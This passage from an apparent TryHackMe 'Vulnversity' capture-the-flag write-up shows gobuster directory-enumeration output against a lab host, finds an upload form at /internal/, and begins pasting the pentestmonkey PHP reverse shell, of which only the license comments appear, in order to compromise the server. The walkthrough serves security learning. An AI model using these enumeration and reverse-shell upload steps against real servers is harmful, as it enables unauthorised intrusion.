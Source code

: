 ```bash
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 322] [--> http://10.10.194.185:3333/images/]
/css                  (Status: 301) [Size: 319] [--> http://10.10.194.185:3333/css/]
/js                   (Status: 301) [Size: 318] [--> http://10.10.194.185:3333/js/]
/internal             (Status: 301) [Size: 324] [--> http://10.10.194.185:3333/internal/]
Progress: 141708 / 141709 (100.00%)
===============================================================
Finished
===============================================================
```
**Q1. What is the directory that has an upload form page?**
- we discovered 4 directories namely /images, /css, /js, /internal. After manually visiting these directories, we can find an upload form in /internal directory.
![uplopad form](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/thm/vulnversity/upload_form.png)

- **Ans: `/internal/`**


## Task 4 : Compromise the web server

After seeing the upload form, the first thing that comes to my mind is uploading an webshell or reverse shell to compromise the server. I use [php reverse shell from Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell).

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
```